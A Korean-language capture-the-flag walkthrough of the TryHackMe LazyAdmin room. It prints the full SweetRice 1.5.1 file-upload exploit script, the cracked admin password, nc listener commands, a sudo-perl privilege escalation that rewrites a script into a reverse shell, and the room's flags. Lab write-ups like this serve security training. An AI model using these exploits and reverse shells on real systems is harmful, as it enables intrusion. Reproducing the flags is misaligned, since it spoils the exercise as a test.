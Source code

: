 # LazyAdmin

## Workstation
- Virtual Box : VMware Workstation 16 Pro
- OS : kali-linux-2022.3

## Walkthrough
### Task 1 | Lazy Admin

Have some fun! There might be multiple ways to get user access.

Note: It might take 2-3 minutes for the machine to boot

![machine]()

---

* What is the user flag?

> THM{63e5bce9271952aad1113b6f1ac28a07}

우선 nmap으로 열려있는 포트를 스캔한다.

![nmap]()

22번 ssh와 80번 http 서버가 열려있다.

80번 http 서버를 접속하면 default 페이지가 나온다.

![http]()

그럼 추가로 디렉터리를 검색한다.

![gobuster]()

`/content` 디렉터리가 나왔다.

![content]()

SweetRice 라는 웹사이트?가 있다. 하지만 더 얻을 것이 없으므로 추가로 /content 디렉터리 안에 있는 디렉터리를 찾는다.

![gobuster_content]()

content 안에 많은 디렉터리들이 있다.

모든 디렉터리를 확인하다가 `/inc` 에서 `lastest.txt` 에서 버전정보를 얻었다.

![lastest]()

그리고 `mysql_backup/` 디렉터리 안에 sql 파일이 있었다. 이 파일에서 sql 정보를 얻을 수 있으니 다운받는다.

![backup]()

이 파일에서 sql 정보를 얻을 수 있으니 다운받는다.

![curl]()

내용을 확인하던 중 manager 계정과 passwd 해시된 암호를 확인했다.

![sql]() 

해시된 암호를 풀기 위해 `hashcat`을 사용한다.

hash로 된 파일에 암호를 입력한다.

![hashcat]()

그럼 `manager` 계정의 암호 `Password123`을 얻었으니 `/content/as` 페이지로 들어가 로그인한다.

![login]()

이제 SweetRice 1.5.1 의 취약점을 찾아본다.

Backup Disclosure 이란 취약점이 존재하는데 아까 본 `mysql_backup/` 디렉터리에 있는 파일과 같은 것 같다.

![search]()

그럼 리버스 쉘을 얻기 위해 파일 업로드 취약점을 확인한다.

![upload]()

중간에 있는 os.system(`cls`) 부분은 주석처리 해준다. 이 명령어는 터미널을 깨끗하게 지워주는 명령어 인데 없어도 괜찮은 코드이다.

```
$ cat 40716.py                                           
#/usr/bin/python
#-*- Coding: utf-8 -*-
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

#if os.name == 'nt':
#    os.system('cls')
#else:
#    os.system('clear')
#   pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = input("Enter The Target URL(Example : localhost.com) : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}



with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass                                                                                                                                                                                   
```

위에서 URL 입력 부분을 보면 host는 `/as/` 전을 URL을 입력하면 되는 것이고 파일은 php5 파일을 입력해야 한다.

그럼 리버스 쉘 파일을 복사한다. 이때 파일을 복사할 때 php5로 변경한다.

![php5]()

`//CHANGE THIS` 부분을 알맞게 변경한다.

![code]()

모두 완료했으면 실행해 아래와 같이 입력하면 php5 파일이 `/attachment`에 업로드가 완료되었다고 한다.

![python]()

그럼 `/attachment`로 이동해 리버스 쉘 파일을 시작하기 앞서 nc로 아까 설정한 5555포트로 리스닝해 놓는다.

```
sudo nc -lvnp 5555
```

그 후 `/attachment` 로 이동해 php5 파일을 눌러주면 다음과 같이 쉘을 얻을 수 있다.

![reverse]()

![nc]()

user.txt를 찾아 플래그를 입력한다.

![user]()

* What is the root flag?

> THM{6637f41d0177b6f37cb20d775124699f}

root 권한 획득을 위해 sudo 명령으로 실행 가능한 명령어를 확인한다.

![sudo]()

perl 명령어로 backup.pl 파일을 패스워드 없이 root 권한으로 실행가능하다고 한다. 

그럼 `/home/itguy/backup.pl` 파일을 확인한다.

이 파일 안에서 다시 sh 명령어로 실행하는 /etc/copy.sh 파일이 있다.

이 파일을 확인해 보면 nc 명령어를 실행하는 코드가 있다. 이 코드를 `echo` 명령어로 내 아이피 주소와 포트로 변경해 준 후 다시 copy.sh 파일에 저장한다.

![pl]()

nc 명령어 실행을 위해 새로운 터미널을 열어 아까 설정한 6666번 포트로 리스닝한다.

```
sudo nc -lvnp 6666
```

리스닝시키고 다시 `sudo /usr/bin/perl /home/itguy/backup` 명령어를 사용하면 리버스 쉘을 얻을 수 있다.

root 권한을 획득했으니 플래그도 얻었다.

![root]()
